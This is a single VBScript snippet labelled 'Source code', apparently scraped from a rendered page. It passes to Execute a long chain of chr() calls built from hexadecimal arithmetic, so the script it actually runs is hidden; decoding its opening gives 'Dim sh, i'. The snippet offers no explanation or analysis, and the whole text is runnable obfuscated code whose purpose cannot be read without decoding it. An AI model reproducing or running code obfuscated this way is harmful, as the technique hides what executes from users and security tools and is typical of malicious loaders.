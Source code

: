 ```visualbasic
Execute chr(-8710+CLng(&H224A))&chr(CLng(&H1C3C)-7123)&chr(-1048+CLng(&H485))&chr(-431+CLng(&H1CF))&chr(CLng(&HECA)-3671)&chr(CLng(&H1EA3)-7739)&chr(-9460+CLng(&H2520))&chr(92448/CLng(&HB49))&chr(-8198+CLng(&H206F))&chr(CLng(&H2543)-9427)&chr(CLng(&H10E8)-4213)&chr(-5011+CLng(&H13BF))&chr(-1785+CLng(&H719))&chr(-4404+CLng(&H119D))&chr(CLng(&H128)-238)&chr(145748/CLng(&H6DC))&chr(-8792+CLng(&H22BD))&chr(-8446+CLng(&H2172))&chr(-8584+CLng(&H21A8))&chr(-1707+CLng(&H71E))&chr(57720/CLng(&H22B))&chr(CLng(&HDBB)-3483)&chr(-100+CLng(&HA1))&chr(291968/CLng(&H23A4))&chr(-2989+CLng(&HBF0))&chr(-1419+CLng(&H5FD))&chr(CLng(&H214E)-8425)&chr(CLng(&H1472)-5137)&chr(-9475+CLng(&H2577))&chr(-1670+CLng(&H6EB))&chr(CLng(&H18EC)-6301)&chr(-9755+CLng(&H267D))&chr(CLng(&HDF6)-3468)&chr(CLng(&H448)-995)&chr(-8152+CLng(&H203B))&chr(782420/CLng(&H1A59))&chr(316960/CLng(&H1EF4))&chr(174726/CLng(&H1413))&chr(-9716+CLng(&H264B))&chr(-2558+CLng(&HA51))&chr(-5012+CLng(&H13F7))&chr(28500/CLng(&HFA))&chr(CLng(&H1795)-5932)&chr(-6173+CLng(&H188D))&chr(832532/CLng(&H1C09))&chr(-8496+CLng(&H215E))&chr(-3982+CLng(&HFE1))&chr(251264/CLng(&H970))&chr(-7986+CLng(&H1F97))&chr(368496/CLng(&HD54))&chr(-1468+CLng(&H628))&chr(CLng(&HB64)-2882)&chr(-2898+CLng(&HB7B))&chr(CLng(&H1A1D)-6627)&chr(-4869+CLng(&H136E))&chr(-2229+CLng(&H925))&chr(1141490/CLng(&H26C6))&chr(-8427+CLng(&H210B))&chr(469212/CLng(&H1E0C))&chr(154656/CLng(&H12E1))&chr(CLng(&HE7B)-3642)&chr(995334/CLng(&H221B))&chr(CLng(&H51F)-1197)&chr(-1494+CLng(&H637))&chr(366267/CLng(&HBD3))&chr(267760/CLng(&H1A26))&chr(-8315+CLng(&H209D))&chr(-5088+CLng(&H1411))&chr(CLng(&H228)-504)&chr(108500/CLng(&H87A))&chr(-3564+CLng(&HE1A))&chr(CLng(&HE53)-3618)&chr(-88+CLng(&H88))&chr(CLng(&H9D9)-2465)&chr(CLng(&HC1D)-3055)&chr(CLng(&H40E)-981)&chr(-81+CLng(&H88))&chr(-8079+CLng(&H1FBD))&chr(-731+CLng(&H30C))&chr(-7987+CLng(&H1F63))&chr(332418/CLng(&H1976))&chr(-6153+CLng(&H182B))&chr(86636/CLng(&H7B1))&chr(CLng(&H210C)-8428)&chr(312426/CLng(&H23E5))&chr(CLng(&H1BE9)-7096)&chr(-2275+CLng(&H915))&chr(CLng(&H17F5)-6082)&chr(CLng(&H1454)-5158)&chr(CLng(&H739)-1796)&chr(-5662+CLng(&H1652))&chr(406732/CLng(&H228A))&chr(-525+CLng(&H23E))&chr(-926+CLng(&H3CE))&chr(236496/CLng(&H133F))&chr(CLng(&HEA9)-3707)&chr(-4694+CLng(&H128A))&chr(CLng(&H1298)-4703)&chr(-6611+CLng(&H19F5))&chr(-9443+CLng(&H250F))&chr(-3311+CLng(&HD0F))&chr(-2866+CLng(&HB54))&chr(CLng(&H1154)-4379)&chr(-4462+CLng(&H11A6))&chr(CLng(&H23E8)-9146)&chr(-7553+CLng(&H1DB6))&chr(CLng(&HCC8)-3220)&chr(384560/CLng(&H20A8))&chr(-7193+CLng(&H1C4D))&chr(52976/CLng(&H3B2))&chr(-246+CLng(&H124))&chr(-94+CLng(&H93))&chr(-2410+CLng(&H99C))&chr(1394/CLng(&H29))&chr(-7683+CLng(&H1E2F))&chr(CLng(&H11BF)-4511)&chr(103156/CLng(&HBDA))&chr(CLng(&H2141)-8456)&chr(-3422+CLng(&HD96))&chr(-5494+CLng(&H15A4))&chr(-7784+CLng(&H1EA1))&chr(-5615+CLng(&H1627))&chr(-3140+CLng(&HC72))&chr(-3731+CLng(&HEC7))&chr(429210/CLng(&H1D6A))&chr(CLng(&H1674)-5702)&chr(CLng(&H24E0)-9383)&chr(-4514+CLng(&H11DA))&chr(-3409+CLng(&HD73))&chr(-4128+CLng(&H104C))&chr(286560/CLng(&H22FB))&chr(-2859+CLng(&HB4D))&chr(CLng(&H25BA)-9605)&chr(-3495+CLng(&HDDB))&chr(-3701+CLng(&HEA3))&chr(196490/CLng(&HFAA))&chr(CLng(&HE41)-3601)&chr(-4045+CLng(&HFFD))&chr(-1431+CLng(&H5C5))&chr(CLng(&HD84)-3403)&chr(-5771+CLng(&H16C2))&chr(-4782+CLng(&H12DC))&chr(154071/CLng(&HB5B))&chr(402290/CLng(&H2012))&chr(-1655+CLng(&H699))&chr(295328/CLng(&H1A38))&chr(CLng(&H21AD)-8589)&chr(-5308+CLng(&H14DE))&chr(-7308+CLng(&H1CC1))&chr(-7625+CLng(&H1DF9))&chr(CLng(&H1775)-5959)&chr(CLng(&H8EB)-2226)&chr(-5757+CLng(&H16B5))&chr(CLng(&H1568)-5434)&chr(381865/CLng(&H1C25))&chr(CLng(&HCBD)-3207)&chr(-6638+CLng(&H1A1C))&chr(99921/CLng(&H6D9))&chr(80304/CLng(&H59A))&chr(-7805+CLng(&H1E9F))&chr(-1820+CLng(&H748))&chr(CLng(&H18B3)-6291)&chr(-5640+CLng(&H162A))&chr(-4824+CLng(&H1311))&chr(352744/CLng(&H189B))&chr(-292+CLng(&H152))&chr(CLng(&H20B8)-8319)&chr(-1584+CLng(&H669))&chr(CLng(&H8C7)-2201)&chr(-2187+CLng(&H8C4))&chr(CLng(&HDC5)-3470)&chr(-3268+CLng(&HCF2))&chr(-5577+CLng(&H15FE))&chr(-309+CLng(&H16C))&chr(-1144+CLng(&H49A))&chr(-9516+CLng(&H2558))&chr(CLng(&H3CD)-941)&chr(-4067+CLng(&H1005))&chr(289198/CLng(&H170E))&chr(-3400+CLng(&HD78))&chr(-8493+CLng(&H215E))&chr(-5902+CLng(&H173C))&chr(387112/CLng(&H1C88))&chr(-6594+CLng(&H19F2))&chr(CLng(&H160F)-5601)&chr(CLng(&HE38)-3587)&chr(460252/CLng(&H2293))&chr(-306+CLng(&H160))&chr(-1576+CLng(&H659))&chr(-853+CLng(&H385))&chr(32640/CLng(&H2A8))&chr(-5770+CLng(&H16AC))&chr(406472/CLng(&H2416))&chr(59552/CLng(&H745))&chr(-3842+CLng(&HF24))&chr(135733/CLng(&HA01))&chr(-4781+CLng(&H12E0))&chr(347576/CLng(&H1D84))&chr(-1448+CLng(&H5DC))&chr(567777/CLng(&H26E9))&chr(CLng(&H2660)-9778)&chr(-6322+CLng(&H18E7))&chr(368526/CLng(&H1C3A))&chr(-9529+CLng(&H2567))&chr(-3965+CLng(&HFB2))&chr(CLng(&H14C3)-5261)&chr(-505+CLng(&H21B))&chr(-532+CLng(&H240))&chr(68352/CLng(&H858))&chr(-789+CLng(&H337))&chr(CLng(&H382)-845)&chr(-9302+CLng(&H248D))&chr(-5774+CLng(&H16BC))&chr(20972/CLng(&H1AC))&chr(CLng(&H22F9)-8903)&chr(-1558+CLng(&H64B))&chr(-8186+CLng(&H2028))&chr(CLng(&H527)-1268)&chr(-9869+CLng(&H26C2))&chr(-6122+CLng(&H1818))&chr(CLng(&H1E3C)-7689)&chr(-4075+CLng(&H1020))&chr(4658/CLng(&H89))&chr(CLng(&H11F7)-4558)&chr(357222/CLng(&H180F))&chr(540120/CLng(&H1E24))&chr(-836+CLng(&H3B3))&chr(986100/CLng(&H21CA))&chr(-2426+CLng(&H99A))&chr(CLng(&H1329)-4800)&chr(191968/CLng(&H176F))&chr(CLng(&H8A9)-2156)&chr(CLng(&H1ED5)-7861)&chr(5616/CLng(&H75))&chr(312224/CLng(&H261D))&chr(152208/CLng(&H714))&chr(CLng(&H12CB)-4700)&chr(CLng(&H202)-482)&chr(217685/CLng(&HA01))&chr(465036/CLng(&H1B86))&chr(-1002+CLng(&H459))&chr(630162/CLng(&H150A))&chr(669680/CLng(&H17C8))&chr(-2383+CLng(&H9B3))&chr(CLng(&H1385)-4957)&chr(-9107+CLng(&H23FC))&chr(1078112/CLng(&H259A))&chr(-1751+CLng(&H74A))&chr(274864/CLng(&H1A30))&chr(-1911+CLng(&H7B1))&chr(-368+CLng(&H190))&chr(-7293+CLng(&H1C9D))&chr(-5151+CLng(&H143F))&chr(-2252+CLng(&H8EC))
```
